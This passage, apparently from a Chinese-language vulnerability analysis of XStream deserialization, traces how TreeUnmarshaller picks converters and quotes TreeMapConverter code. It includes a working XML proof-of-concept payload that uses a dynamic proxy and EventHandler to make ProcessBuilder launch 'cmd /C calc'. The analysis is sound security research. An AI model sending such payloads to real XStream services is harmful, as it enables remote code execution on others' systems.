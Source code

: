 到这里，整个过程就结束了，**总结如下**：

1.  从com.thoughtworks.xstream.core.TreeUnmarshaller的start函数开始，执行HierarchicalStreams.readClassType，通过标签名从Mapper中获取对应的class对象
2.  获得class对象后返回至start函数，来到TreeUnmarshaller的convertAnother函数，该方法将上面返回的类转换成Java对象
    *   通过mapper.defaultImplementationOf方法查找class的实现类
    *   通过converterLookup.lookupConverterForType根据对应的类寻找正确的转换器Converter
    *   调用AbstractReferenceUnmarshaller的convert方法获得对应的对象
    *   根据获取到的Converter，调用unmarshal方法，读取其子节点，并转化成对应的变量，直到所有节点解析完成

另一个POC：

```plain
<tree-map>
    <entry>
        <dynamic-proxy>
            <interface>java.lang.Comparable</interface>
            <handler class="java.beans.EventHandler">
                <target class="java.lang.ProcessBuilder">
                    <command>
                        <string>cmd</string>
                        <string>/C</string>
                        <string>calc</string>
                    </command>
                </target>
                <action>start</action>
            </handler>
        </dynamic-proxy>
        <string>good</string>
    </entry>
</tree-map>
```

这里通过this.converterLookup.lookupConverterForType函数得到的converter是TreeMapConverter  
而TreeMapConverter的unmarshal函数如下,相对来讲对比于TreeSetConverter转换器的unmarshal函数，少了很多判断条件，即限制

```plain
public Object unmarshal(HierarchicalStreamReader reader, UnmarshallingContext context) {
    TreeMap result = comparatorField != null ? new TreeMap() : null;
    // 判断是否存在comparator
    Comparator comparator = this.unmarshalComparator(reader, context, result);
    if (result == null) {
        result = comparator == null ? new TreeMap() : new TreeMap(comparator);
    }

    this.populateTreeMap(reader, context, result, comparator);
    return result;
}
```

其他过程与上面同理

## 6\. CVE-2021-21351
